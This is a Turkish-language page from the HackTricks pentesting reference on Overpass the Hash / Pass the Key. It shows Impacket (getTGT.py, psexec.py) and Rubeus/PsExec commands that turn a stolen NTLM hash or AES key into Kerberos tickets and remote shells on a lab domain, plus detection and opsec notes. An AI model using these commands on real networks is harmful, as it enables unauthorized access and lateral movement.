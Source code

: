 # Over Pass the Hash/Pass the Key

<details>

<summary><strong>AWS hackleme becerilerini sıfırdan ileri seviyeye öğrenmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'a katılın!</strong></summary>

* Bir **cybersecurity şirketinde** çalışıyor musunuz? **Şirketinizi HackTricks'te reklamını yapmak** ister misiniz? veya **PEASS'ın en son sürümüne erişmek veya HackTricks'i PDF olarak indirmek** ister misiniz? [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonunu.
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter**'da 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**'u takip edin**.
* **Hacking hilelerinizi [hacktricks repo](https://github.com/carlospolop/hacktricks) ve [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)'ya PR göndererek paylaşın**.

</details>

## Overpass The Hash/Pass The Key (PTK)

**Overpass The Hash/Pass The Key (PTK)** saldırısı, geleneksel NTLM protokolünün kısıtlandığı ve Kerberos kimlik doğrulamasının öncelikli olduğu ortamlar için tasarlanmıştır. Bu saldırı, bir kullanıcının NTLM hash veya AES anahtarlarını kullanarak Kerberos biletleri talep ederek ağ içindeki kaynaklara izinsiz erişim sağlar.

Bu saldırıyı gerçekleştirmek için ilk adım, hedeflenen kullanıcının hesabının NTLM hash veya şifresini elde etmektir. Bu bilgiyi elde ettikten sonra, hesap için bir Ticket Granting Ticket (TGT) alınabilir ve saldırganın kullanıcının izinleri olduğu hizmetlere veya makinelerine erişmesine olanak sağlar.

İşlem aşağıdaki komutlarla başlatılabilir:
```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
AES256 gerektiren senaryolarda, `-aesKey [AES anahtarı]` seçeneği kullanılabilir. Ayrıca, elde edilen bilet smbexec.py veya wmiexec.py gibi çeşitli araçlarla kullanılabilir, saldırının kapsamı genişletilebilir.

_PyAsn1Error_ veya _KDC cannot find the name_ gibi karşılaşılan sorunlar genellikle Impacket kütüphanesinin güncellenmesi veya IP adresi yerine ana bilgisayar adının kullanılmasıyla çözülür, böylece Kerberos KDC ile uyumluluk sağlanır.

Bu teknikle ilgili başka bir yönü gösteren alternatif bir komut dizisi Rubeus.exe kullanılarak gösterilebilir:
```bash
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
Bu yöntem, **Pass the Key** yaklaşımını yansıtmaktadır ve doğrudan kimlik doğrulama amaçlı biletin ele geçirilmesi ve kullanılması üzerinde odaklanmaktadır. Önemli bir nokta, TGT isteğinin başlatılmasıyla birlikte varsayılan olarak RC4-HMAC kullanımını gösteren `4768: Bir Kerberos kimlik doğrulama bileti (TGT) istendi` olayının tetiklendiğidir, ancak modern Windows sistemleri AES256'yı tercih etmektedir.

Operasyonel güvenliğe uyum sağlamak ve AES256'yı kullanmak için aşağıdaki komut uygulanabilir:
```bash
.\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec
```
## Referanslar

* [https://www.tarlogic.com/es/blog/como-atacar-kerberos/](https://www.tarlogic.com/es/blog/como-atacar-kerberos/)

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmaya kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

* Bir **cybersecurity şirketinde mi çalışıyorsunuz**? **Şirketinizi HackTricks'te reklamınızı görmek ister misiniz**? veya **PEASS'ın en son sürümüne erişmek veya HackTricks'i PDF olarak indirmek ister misiniz**? [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family), özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin.
* [**Resmi PEASS & HackTricks ürünlerini alın**](https://peass.creator-spring.com)
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter'da** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**'u takip edin**.
* **Hacking hilelerinizi [hacktricks repo'ya](https://github.com/carlospolop/hacktricks) ve [hacktricks-cloud repo'ya](https://github.com/carlospolop/hacktricks-cloud) PR göndererek paylaşın**.

</details>

